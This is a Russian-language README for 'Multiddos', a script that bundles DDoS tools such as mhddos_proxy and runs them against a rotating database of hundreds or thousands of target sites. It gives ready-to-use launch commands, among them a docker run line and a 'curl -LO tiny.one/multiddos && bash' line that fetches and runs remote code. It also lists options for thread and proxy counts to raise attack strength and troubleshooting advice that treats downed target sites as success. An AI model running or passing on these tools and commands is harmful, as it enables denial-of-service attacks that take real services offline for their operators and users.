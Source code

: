 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматический запуск, автоматическая смена целей.
* Запуск одной простой командой.
* Наличие нескольких режимов работы (с помощью дополнительных ключей)
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.
* Имеет базу на сотни (часто тысячи) сайтов/адресов.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* ~~[db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)~~ временно отключено
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ временно отключено

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. UAShield прожорливая и низкоэффективная по сравнению с mhddos_proxy. Поэтому на данном этапе по умолчанию используется только mhddos_proxy.
 
</details>

---
# **Multiddos в docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```
* Альтернативный запуск для слабых систем. Будет использоваться только 1 ядро на 90% (использовать если процессор забивается на 100% и система тормозит). <details> `docker run --cpus 0.9 -it --rm --log-driver none --name multidd --pull always karboduck/multidd`

* Если вам нужно запустить несколько копий multiddos. <details> Используйте разные имена (--name multidd1, --name multidd2 и т.д.), либо не используйте имена вообще

* Запуск docker c ключами. <details> Docker версия поддерживает те же ключи, что и bash версия. Прописывайте их точно так же в конце команды. `docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd --lite --lang en` Подробнее про ключи читайте ниже в разделе **Опции запуска**.

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos в bash** (Linux, WSL2)

### **Запуск**

```
curl -LO tiny.one/multiddos && bash multiddos
```

</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---
## **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multidd`
</details>

---

## **Опции запуска**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop и multiddos. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop. Или добавить в нее утилиты: db1000n, uashield, vnstat.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+d` убрать db1000n

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`-p 2000` или `--proxy-threads 2000` Использование этого ключа подключает proxy_finder и задает количество потоков для поиска. Чем выше значение, тем быстрее происходит сканирование и поиск новых прокси, но тем и выше нагрузка на CPU и сеть. Поэтому при больших значениях может падать скорость атак. 

`-t 500` или `--threads 500` задать количество потоков для mhddos_proxy

`--lite` запускает "легкий" режим. С пониженной загрузкой процессора и сети. Рекомендуется использовать, если компьютер или доступ в Интернет "тормозят". В lite режиме multiddos берет из базы 1000 случайных целей, количество потоков для mhddos_proxy = 2000.

`--plite` то же самое что `--lite` но также запускается поиск прокси с параметром --proxy-threads 1000.

Пример команды (убрать gotop, запустить proxy finder с 2000 потоков):

```
curl -LO tiny.one/multiddos && bash multiddos -g -p 2000
```

То же самое для docker:

```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd -g -p 2000
```

</details>

---
## **Решение проблем и распространеные вопросы**
<details>
  <summary>развернуть</summary>

1.
Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на ваше железо.

Внешние проявления могут быть самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

Если проблема повторяется, попробуйте использовать режим --lite. Если проблема все равно повторяется, значит на этой конкретной системе атаки запустить не получится.

2.
Вылетает db1000n или uashield. Это либо опять побочка проблем с сетью, смотрите пункт выше. Либо сбой самих программ, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он работает, все идет по плану. 
 
3.
Низкий трафик. В подавляющем большинстве случаев это значит, что атакуемые сайты уже лежат, либо их закрыли гео-блоком (отгородили от внешнего мира). Это нормально, наши атаки все равно приносят пользу, продолжаем работать.

Также может значить что вы используете слишком высокое кол-во потоков для атак, и ваш ПК не справляется с нагрузкой. Попробуйте запустить Multiddos в режиме --lite.

4.
Пишет что сайт или несколько сайтов недоступны и не будут атакованы. Это нормально, значит эти конкретные сайты лежат или недоступны по другим причинам. Как правило это происходит с небольшим количеством сайтов, и атаки по 99% других сайтов продолжаются.

5.
Пишет что доступно 0 сайтов. Похоже на ошибку №4, но при нормальной работе такого быть не должно. Значит либо упала сеть, либо провайдер/vpn блокирует доступ ко всем этим сайтам.

Попробуйте перезагрузить ПК. Попробуйте использовать режим --lite. Включите или если уже включен, наоборот выключите vpn.

6.
Нужен ли VPN? На данный момент не нужен. То есть при желании или необходимости его можно держать включенным, но это не обязательно, так как mhddos_proxy использует прокси.

</details>